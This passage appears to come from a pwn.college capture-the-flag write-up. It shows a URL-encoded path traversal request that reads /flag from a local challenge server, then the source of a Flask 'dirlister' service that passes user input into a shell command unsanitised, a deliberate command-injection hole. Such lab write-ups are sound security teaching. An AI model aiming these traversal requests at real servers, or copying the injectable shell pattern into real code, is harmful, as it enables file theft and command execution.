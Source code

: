 ```
## Request:
curl "challenge.localhost:80/dump/fortunes/../../../flag"

## Stripped:
fortunes/../../../flag  ==>  fortunes/../../../flag 

## Full path:
/challenge + /files/ + fortunes/../../../flag  ==>  /challenge/files/fortunes/../../../flag  ==>  /flag
```

```
hacker@web-security~path-traversal-2:/$ curl "challenge.localhost:80/dump/fortunes/..%2F..%2F..%2Fflag"
pwn.college{gTCJICEJPu2FAs5FxbMoQ5lh9sz.dJjN1YDL4ITM0EzW}
```

&nbsp;

## CMDi 1

### Source code
```py title="/challenge/server" showLineNumbers
#!/opt/pwn.college/python

import subprocess
import flask
import os

app = flask.Flask(__name__)


@app.route("/mission", methods=["GET"])
def challenge():
    arg = flask.request.args.get("target", "/challenge")
    command = f"ls -l {arg}"

    print(f"DEBUG: {command=}")
    result = subprocess.run(
        command,  # the command to run
        shell=True,  # use the shell to run this command
        stdout=subprocess.PIPE,  # capture the standard output
        stderr=subprocess.STDOUT,  # 2>&1
        encoding="latin",  # capture the resulting output as text
    ).stdout

    return f"""
        <html><body>
        Welcome to the dirlister service! Please choose a directory to list the files of:
        <form action="/mission"><input type=text name=target><input type=submit value=Submit></form>
        <hr>
        <b>Output of {command}:</b><br>
        <pre>{result}</pre>
        </body></html>
        """


os.setuid(os.geteuid())
os.environ["PATH"] = "/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"
app.secret_key = os.urandom(8)
app.config["SERVER_NAME"] = "challenge.localhost:80"
app.run("challenge.localhost", 80)
```